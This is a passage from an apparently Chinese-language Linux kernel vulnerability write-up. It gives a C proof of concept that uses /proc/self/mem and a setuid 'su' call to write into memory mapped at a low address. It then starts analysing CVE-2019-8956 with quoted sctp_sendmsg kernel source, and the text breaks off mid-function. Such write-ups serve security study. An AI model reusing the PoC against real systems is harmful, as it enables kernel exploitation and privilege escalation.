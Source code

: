 [![](https://p0.ssl.qhimg.com/t01cf7ce19a530c7c90.png)](https://p0.ssl.qhimg.com/t01cf7ce19a530c7c90.png)

poc：

```
int main()
`{`
    unsigned long addr = (unsigned long)mmap((void *)0x10000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);
    if (addr != 0x10000)
            err(2,"mmap failed");
    int fd = open("/proc/self/mem",O_RDWR);
    if (fd == -1)
            err(2,"open mem failed");
    char cmd[0x100] = `{`0`}`;
    sprintf(cmd, "su &gt;&amp;%d &lt; /dev/null", fd);
    while (addr)
    `{`
            addr -= 0x1000;
            if (lseek(fd, addr, SEEK_SET) == -1)
                    err(2, "lseek failed");
            system(cmd);
    `}`
    printf("contents:%sn",(char *)1);
`}`
```

### <a class="reference-link" name="CVE-2019-8956"></a>CVE-2019-8956

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t017a99fdcbb77fcd85.png)

看一波补丁，发现漏洞存在于sctp_sendmsg函数内：

```
static int sctp_sendmsg(struct sock *sk, struct msghdr *msg, size_t msg_len)
`{`
    struct sctp_endpoint *ep = sctp_sk(sk)-&gt;ep;
    struct sctp_transport *transport = NULL;
    struct sctp_sndrcvinfo _sinfo, *sinfo;
    struct sctp_association *asoc;
    struct sctp_cmsgs cmsgs;
    union sctp_addr *daddr;
    bool new = false;
    __u16 sflags;
    int err;

    /* Parse and get snd_info */
    err = sctp_sendmsg_parse(sk, &amp;cmsgs, &amp;_sinfo, msg, msg_len);
    if (err)
        goto out;

    sinfo  = &amp;_sinfo;
    sflags = sinfo-&gt;sinfo_flags;

    /* Get daddr from msg */
    daddr = sctp_sendmsg_get_daddr(sk, msg, &amp;cmsgs);
    if (IS_ERR(daddr)) `{`
        err = PTR_ERR(daddr);
        goto out;
    `}`

    lock_sock(sk);
```
